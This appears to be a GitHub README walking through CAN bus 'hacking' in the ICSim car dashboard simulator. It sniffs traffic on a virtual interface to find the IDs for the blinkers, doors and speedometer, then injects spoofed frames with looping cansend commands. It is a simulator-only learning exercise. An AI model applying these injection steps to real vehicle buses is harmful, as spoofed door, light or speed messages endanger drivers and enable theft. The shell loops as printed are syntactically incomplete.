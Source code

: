 # Car_CAN-Hacking
## !!! DISLAIMER - THIS PROJECT IS NOT INTENDED TO BE USED IN A BAD WAY AND IS INTENDED ONLY FOR EDUCATIONAL PURPOSES I NEITHER CONDONE NOR TAKE RESPONSIBILITY FOR SOMEONE ELSE'S ACTIONS !!!

PREVIEW - ICSim is a simulator of how an actual car computer would work with visuals of a speedometer, blinkers and locked/unlocked doors, which is later on in the
file said as a dashboard

!!! Every command is done in a terminal and would probably need sudo privileges - sudo su !!!

1. Install ICSim

  [Clones the ICSim directory from github into an ICSim directory on your machine]
  - git clone https://github.com/zombieCraig/ICSim
  
2. Setup ICSim 

  [Changes the active directory of the terminal to ICSim's directory]
  - cd ICSim 
  
  [Runs the ICSim setup file]
  - ./setup_vcan.sh
  
3. Run ICSim
  
  [Runs the visual represantation of a car's dashboard with the interface for CAN communacation - vcan0]
  - ./icsim vcan0 (done in one terminal)
  
  [Runs the controls window which would need to be active(selected) in order to control the car using the same interface - vcan0]
  - ./controls vcan0 (done in a second terminal)
  
4. Run cansniffer
  
  [cansniffer is a tool used to sniff CAN packets]
  
  [Runs the cansniffer using the -c tag to helf identify changing data and using the same interface - vcan0]
  - cansniffer –c vcan0 (done in a third terminal)
  
5. Play around with the controls and try to spot what action corresponds to what ID in the cansniffer and how the data changes

6. I see that ID 188 corresponds to the blinkers with left blinker having the data - #010000 and the right blinker having the data - #020000
   	Write a bash script in the linux cmd to make hazard lights (couldn't manage to take a screenshot with both lights on) -
  
		while true do cansend vcan0 188#010000 cansend vcan0 188#020000 done
    
![314419579_1745801909127820_5795919229665972963_n](https://user-images.githubusercontent.com/109030111/201494211-9c4eac66-79f8-4b52-9c28-1ae59e2c5f35.png)

7. I see that ID 19B corresponds to the doors with open doors having the data - #000000 and closed door having the data - #00000F 
   	Write a bash script in the linux cmd to lock and unlock the doors  
   
		while true do cansend vcan0 19B#00000F cansend vcan0 19B#000000 done
		
![314437872_661565698651571_7419970977940910151_n](https://user-images.githubusercontent.com/109030111/201494544-220d8860-2044-41ca-8fd4-f79a956f5180.png)

8. And finally I see that ID 244 corresponds to the speedometer with the speed of 95 having the data - #0000003894
	Write a bash script in the linux cmd to keep the speed at 95 

		while true do cansend vcan0 244#0000003894 done
   
![314445943_1172877640014528_1613940322642097491_n](https://user-images.githubusercontent.com/109030111/201494627-95e13746-8fce-4d2b-b71f-b69beede9c0a.png)

That pretty much wraps up my little CAN-sniffing adventure thank you for reading it and I hope you find it helpful!

By nodlezgucci!

